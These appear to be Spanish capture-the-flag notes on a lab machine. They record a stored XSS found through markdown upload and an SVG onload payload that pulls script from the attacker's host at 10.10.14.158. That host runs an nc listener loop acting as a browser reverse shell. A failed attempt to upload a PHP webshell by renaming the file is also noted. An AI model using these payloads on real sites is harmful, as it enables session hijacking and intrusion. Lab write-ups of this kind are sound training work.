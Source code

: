 ## Payload / CVE used
-  XSS
- 

---
# XSS
Vemos que el servidor es vulnerable al xss al subir un archivo markdown

Probamos con una reverse shell 
Attacker:
```bash
while :; do printf "j$ "; read c; echo $c | nc -lp 4445 >/dev/null; done
```

Victim: 
```html
<svg/onload=setInterval(function(){d=document;z=d.createElement("script");z.src="//10.10.14.158:4445";d.body.appendChild(z)},0)>
```


Intento subir una webshell (php) modificando la extension del archivo markdown (.md) por (.php) en el burpsuite mientras intercepto el POST
![[Pasted image 20241126181633.png]]
Pero no funciona, el servidor manda un error 
## Lateral Movement

### Local enumeration

- 

### Atack vector

- 

---


